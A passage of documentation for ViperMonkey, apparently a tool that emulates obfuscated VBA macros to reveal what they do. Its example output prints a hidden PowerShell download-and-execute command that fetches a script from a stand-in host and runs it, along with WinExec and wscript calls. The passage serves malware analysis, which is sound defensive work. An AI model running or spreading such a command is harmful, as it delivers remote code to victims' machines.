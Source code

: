 ```python

Shell m1 & m2 & m3 & m4, vbHide

WinExec "wscript powershell.exe -x run.ps1", 0

End Function

Execute
'''

context = vipermonkey.Context()
vipermonkey.eval(vba_code, context=context)

for description, actions in context.actions.iteritems():
    print description, '===='
    for action in actions:
        print action
```
```
Shell function ====
('Execute Command', 'powershell -w hidden -exec bypass -c "$a=Invoke-WebRequest www.example.com/script.txt; Invoke-Expression $a"')
Interesting Function Call ====
('WinExec', ['wscript powershell.exe -x run.ps1', 0])
Interesting Command Execution ====
('Run', 'wscript powershell.exe -x run.ps1')
```

You may also provide your own callback function in the `Context` object to report the action.
```python
def report_shell(action, params=None, description=None):
    if action == 'Execute Command':
        print "FOUND A COMMAND: ", params

context = vipermonkey.Context(report_action=report_shell)
vipermonkey.eval(vba_code, context=context)
```
```
FOUND A COMMAND:  powershell -w hidden -exec bypass -c "$a=Invoke-WebRequest www.example.com/script.txt; Invoke-Expression $a"
```

## Improving Speed
Parsing is the most expensive thing ViperMonkey has to do. Therefore, the `CodeBlock` objects have been designed to parse only when an attribute (`.type`, `.name`, `.params`, etc) is accessed or the `eval()` function is called. However, calling `str()` does not trigger a parse. You can take advantage of this to help speed up your processing by skipping uninteresting lines or usable lines.

```python
import re
import vipermonkey

vba_code = '''
Dim SHxPqkwrGNbtKCbuMMuOwkEnjTCFyQYVofmDhUQO As String
Dim HInhBKXjdKldXUzKfBJGXAlBvSvqyiFkewQMeKCj As String
Dim pRFxhIaLPubbdOiMdqXdORFsxSLGEoyqXCaKHNtT As String
Dim uKWKPzXumrqVToeYfOEBgPSGrPxQuHjXJJDWgfTU As String
Dim mIJOHatpQXHVoIHwnThJcipbyvwvJqJeGduHDfgY As String

Dim m1, m2, m3 As String
m1 = "he" & "ll" & Chr(111) & " "
m2 = "w" & Chr(111) & "rl" & Chr(123 Xor 31)
m3 = "!!!"
result = m1 & 2 & m3
'''
```